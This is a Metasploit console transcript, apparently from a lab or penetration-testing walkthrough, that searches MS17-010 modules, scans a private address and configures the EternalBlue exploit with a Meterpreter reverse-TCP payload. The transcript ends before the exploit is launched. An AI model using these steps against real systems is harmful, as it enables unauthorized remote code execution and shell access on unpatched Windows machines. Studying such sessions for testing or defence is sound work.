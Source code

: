 ```powershell
   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


msf5 auxiliary(scanner/smb/smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name         Current Setting                                                 Required  Description
   ----         ---------------                                                 --------  -----------
   CHECK_ARCH   true                                                            no        Check for architecture on vulnerable hosts
   CHECK_DOPU   true                                                            no        Check for DOUBLEPULSAR on vulnerable hosts
   CHECK_PIPE   false                                                           no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS       192.168.11.131                                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        445                                                             yes       The SMB service port (TCP)
   SMBDomain    .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                      no        The password for the specified username
   SMBUser                                                                      no        The username to authenticate as
   THREADS      1                                                               yes       The number of concurrent threads (max one per host)

msf5 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.
```